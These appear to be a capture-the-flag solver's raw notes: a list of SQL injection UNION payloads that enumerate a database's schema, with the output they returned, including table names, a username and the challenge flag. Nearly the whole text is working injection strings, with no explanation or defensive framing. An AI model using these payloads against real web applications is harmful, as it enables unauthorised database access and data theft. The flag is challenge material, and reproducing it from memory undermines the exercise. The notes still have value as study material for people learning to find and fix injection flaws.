 -1' UNION ALL SELECT table_name, column_name, 3 FROM INFORMATION_SCHEMA.columns -- 

-1' UNION ALL SELECT description, 2, 3 FROM flags -- 

-1' UNION ALL SELECT table_schema, table_name, 3 FROM INFORMATION_SCHEMA.tables -- 
-1' UNION ALL SELECT table_schema FROM INFORMATION_SCHEMA.tables -- 
-1' UNION ALL SELECT table_name FROM INFORMATION_SCHEMA.tables -- 
users
accounts
hosts
naughty
	id
	username
	badthing

-1' UNION ALL SELECT column_name FROM users -- 

-1' UNION ALL SELECT users FROM INFORMATION_SCHEMA.columns -- 

-1' UNION ALL SELECT username FROM users -- 
egische

-1' UNION ALL SELECT badthing FROM naughty -- 
NOVI{bl1nd_sql1_is_naughty}

